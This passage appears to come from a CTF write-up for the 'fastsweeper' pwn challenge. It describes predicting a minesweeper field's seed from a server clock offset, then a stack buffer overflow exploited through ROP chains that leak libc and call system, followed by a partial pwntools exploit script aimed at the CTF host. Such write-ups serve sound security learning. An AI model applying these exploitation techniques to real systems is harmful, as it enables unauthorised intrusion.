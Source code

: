 We also used a shell we got from a previous pwn challenge to find out the
clock difference of the server and our machine. Turns out it was
131 seconds, which is quite a lot more than we expected. It would be possible
to bruteforce this, but this way it's a little more precise. Further it 
may take a couple of tries to get the seeding right.

So we put a python script around this to play minesweeper and we managed to
play through it, but never reached the winning condition. That sucked. So we
contacted the admins to see whether this was intended and a couple of minutes
later the challenge was taken down. The next day in the morning the challenge
was back up, but changed quite a bit. It was a 16x16 field now and it had some
additional checks and also the input didn't consit only of the two 
coordinates in the field anymore, but now had a third number.

It took us a while to figure out what this third number was for. To trigger the
winning condition you had to tell it where all the bombs are. The third number
was for this.

So we played minesweeper and triggered the winning condition by also marking
all bombs. Then used the buffer overflow on the stack to put our ROP chain on
the stack. We leaked the address of the libc with a first ROP chain and with a
second one we jumped to system.

Here is the python part of the exploit.

```python
#!/usr/bin/env python
# for second version

import subprocess as sp

from pwn import *  # NOQA

# libc = ELF("/usr/lib/libc-2.24.so")
# leaked libc from a previous pwn challenge
libc = ELF("../persian_150/lib/x86_64-linux-gnu/libc-2.19.so")
velf = ELF("./fastsweeper")
context.arch = velf.arch

gdbscript = """
init-pwndbg
# break *0x00401c9e
break *0x00401597
break *0x00401630  # cmp with first num
break *0x00401ded
"""
# vp = process("./fastsweeper")
# vp = process("./fastsweeper_patched")
vp = remote("ctf.sharif.edu", 54516)

# ######### play ########## #

o = sp.check_output(['./init_field', '131'])
# o = sp.check_output(['./init_field', '0'])
# print(o)
moves = []
bombs = []
for line in o.split("\n"):
    if line.strip():
        x = line.split(" ")
        if x[-1] != "*":
            i, j, v = map(int, x)
            moves.append((v, i, j))
        else:
            i, j = map(int, x[:-1])
            bombs.append((i, j))
```